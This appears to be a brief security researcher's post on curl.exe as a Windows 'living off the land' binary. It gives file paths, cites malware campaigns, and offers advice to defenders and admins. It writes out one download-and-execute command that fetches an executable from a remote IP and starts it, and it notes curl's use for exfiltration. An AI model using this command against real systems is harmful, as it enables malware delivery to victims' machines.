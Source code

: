 #Notes: LOLbin — Curl.exe
Why we treat regsvr32/rundll32 as LOLware version of Curl if we already have Curl in windows?
Curl is included by default in Windows 10 build 17063 and later , As i hunt for LOLbins, I came across curl.exe.
Curl is used to handle files on remote servers.
Attackers can make use of this functionalities to download the payload to victims machine as well as executing them.
The upload function can be used for data exfiltration.
Path:
C:\Windows\System32
C:\Windows\SysWOW64
C:\Windows\WinSxS\amd64_curl_*\
Download and Execute Command:
curl -O http://192.168.191.1/shell191.exe & start shell191.exe
https://t.co/0HrnbSvMH7?amp=1
I found 3 malware campaign used curl libraries and dll compiled curl in their campaign.
Hidden Cobra APT— https://www.us-cert.gov/ncas/analysis-reports/AR18-275A
Platinum group APT — https://securelist.com/titanium-the-platinum-group-strikes-again/94961/
Credential Stealers — https://www.cyberark.com/threat-research-blog/new-sneaky-threat-against-your-chrome-credentials/
From the above 3 campaigns, There was no direct usage of Curl.exe, but due to Windows 7 EOL, there will be a huge migration to Latest windows 10 build and possibilities of using curl.exe without any complicated code will be observed.
Impact:
For defenders, Additional monitoring on curl.exe events and commands by new use cases.
For IT admins, If no need of curl usage in your Org environment, It is recommended to block by policy.
For Red Teamer’s, Play with it.
Proposed to https://lolbas-project.github.io/ for addition.
Cheers!
@reegun21
